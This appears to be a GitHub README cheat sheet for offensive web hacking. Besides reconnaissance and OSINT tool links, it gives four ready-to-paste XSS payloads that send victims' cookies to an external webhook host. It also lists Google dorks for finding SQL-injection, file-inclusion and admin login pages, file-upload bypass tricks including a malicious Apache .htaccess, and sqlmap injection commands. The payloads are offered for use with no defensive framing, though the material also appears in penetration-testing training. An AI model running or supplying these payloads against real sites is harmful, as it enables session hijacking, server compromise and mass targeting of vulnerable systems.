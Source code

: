 ## Hacker AI
- [HackerGPT](https://chat.hackerai.co/)

## Web Application Enumeration
- [assetfinder](https://github.com/tomnomnom/assetfinder):
    - Find domains and subdomains potentially related to a given domain.
- [amass](https://github.com/OWASP/Amass)
    - Performs network mapping of attack surfaces and external asset discovery using open source information gathering and active reconnaissance techniques.
- [sublist3r](https://github.com/aboul3la/Sublist3r)
    -  Enumerate subdomains of websites using OSINT
- [httprobe](https://github.com/tomnomnom/httprobe)
    - Take a list of domains and probe for working http and https servers.
- [waybackurls](https://github.com/tomnomnom/waybackurls)
    - Accept line-delimited domains on stdin, fetch known URLs from the Wayback Machine for *.domain and output them on stdout.
- [whatweb](https://github.com/urbanadventurer/WhatWeb)
    - recognises web technologies including content management systems (CMS), blogging platforms, statistic/analytics packages, JavaScript libraries, web servers, and embedded devices.
- [nmap](https://nmap.org/download.html)
    - Performs network mapping of attack surfaces and external asset discovery using open source information gathering and active reconnaissance techniques.
- [eyewitness](https://github.com/FortyNorthSecurity/EyeWitness) 
    - EyeWitness is designed to take screenshots of websites provide some server header info, and identify default credentials if known.

## Cross Site Scripting Steal Cookie

### Insert this payload on vulnerable site

1. Payload with alert
```javascript
<script>
alert(document.cookie);
var i=new Image;
i.src="http://webhook_link/?"+document.cookie;
</script>
```

2. Payload no alert
```javascript
<script>var i=new Image;i.src="http://webhook_link/?"+document.cookie;</script>
```

3. Payload no script tag
```html
<img src=x onerror=this.src='http://webhook_link/?'+document.cookie;>
```

4. Payload no script tag and loop
```html
<img src=x onerror="this.src='http://webhook_link/?'+document.cookie; this.removeAttribute('onerror');">
```

5. Result 

![alt text](image.png)

## Website OSINT

- [BuiltWith](https://builtwith.com/)
- [Domain Dossier](https://centralops.net/co/)
- [DNSlytics](https://dnslytics.com/reverse-ip)
- [SpyOnWeb](https://spyonweb.com/)
- [Visual Ping](https://visualping.io/)
- [Back Link Watch](http://backlinkwatch.com/index.php)
- [View DNS](https://viewdns.info/)
- [urlscan.io](https://urlscan.io/)
- [DNSdumpster](https://dnsdumpster.com/) *MX Record for email.
- [Web Check](https://web-check.as93.net/)
- [crt.sh](https://crt.sh/)
- [Shodan](https://shodan.io)
- [Wayback Machine](https://web.archive.org/)

## Google Dorks for Vulnerability

### SQLI
- inurl:pageid=
- inurl:games.php?id=
- inurl:page.php?file=
- inurl:newsDetail.php?id=
- inurl:gallery.php?id=
- inurl:show.php?id=
- inurl:staff_id=
- inurl:newsitem.php?num=

### LFI
- /index.inc.php?PATH_Includes=
- /ashnews.php?pathtoashnews=
- /ashheadlines.php?pathtoashnews=
- /modules/xgallery/upgrade_album.php?GALLERY_BASEDIR=
- /demo/includes/init.php?user_inc=
- /jaf/index.php?show=
- /inc/shows.inc.php?cutepath=
- /poll/admin/common.inc.php?base_path=
- /pollvote/pollvote.php?pollname=
- /sources/post.php?fil_config=

### SQLI LGGIN BYPASS
- intitle:”Admin Login” “admin login” “blogware”
- intitle:”Admin login” “Web Site Administration” “Copyright”
- intitle:”AlternC Desktop”
- intitle:”Athens Authentication Point”
- intitle:”b2evo > Login form” “Login form. You must log in! You will have to accept cookies in order to log in” -demo -site:b2evolution.net
- intitle:”Cisco CallManager User Options Log On” “Please enter your User ID and Password in the spaces provided below and click the Log On button to co
- intitle:”ColdFusion Administrator Login”
- intitle:”communigate pro * *” intitle:”entrance”
- intitle:”Content Management System” “user name”|”password”|”admin” “Microsoft IE 5.5″ -mambo
- intitle:”Dell Remote Access Controller”
- intitle:”Docutek ERes – Admin Login” -edu
- intitle:”Employee Intranet Login”

[More](https://github.com/0xAbbarhSF/Info-Sec-Dork-List/tree/main)

## File Upload Vulneraility

1. change extension name to bypss
.php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module

1. Use null byte extension
reference : https://book.hacktricks.xyz/pentesting-web/file-upload

1. Change configuration (Apache only)
- Craft Malicious Configuration: 

```bash
php_flag engine on
AddType application/x-httpd-php .php
AddType application/x-httpd-php .phtml
AddType application/x-httpd-php .php3
AddType application/x-httpd-php .php4
AddType application/x-httpd-php .php5
AddType application/x-httpd-php .pht
AddType application/x-httpd-php .phps
```

4. Change Magic byte
try buat request yang valid lepastu just selitkan jer die punya, kita punya payload. tujuan die nak kekalkan magicbyte masa upload.

Reference:
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)
- [Hacktricks](https://book.hacktricks.xyz/pentesting-web/file-upload)

## SQLI Vulnerability

### sqlmap cheatsheet:

- From burp (capture requst and create req.txt)

```bash
sqlmap -r req.txt --current-user
```
   
- GET Request Injection

```bash
sqlmap -u "http://example.com/?id=1" -p id
sqlmap -u "http://example.com/?id=*" -p id
```

- POST Request Injection

```bash
sqlmap -u "http://example.com" --data "username=*&password=*"
```

- PUT Request Injection

```bash
sqlmap --method=PUT -u "http://example.com" --headers="referer:*"

#The injection is located at the '*'
```

- Headers Injection

```bash
#Inside cookie
sqlmap  -u "http://example.com" --cookie "mycookies=*"

#Inside some header
sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
sqlmap -u "http://example.com" --headers="referer:*"

#The injection is located at the '*'
```

[sqlmap cheatsheet](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap)


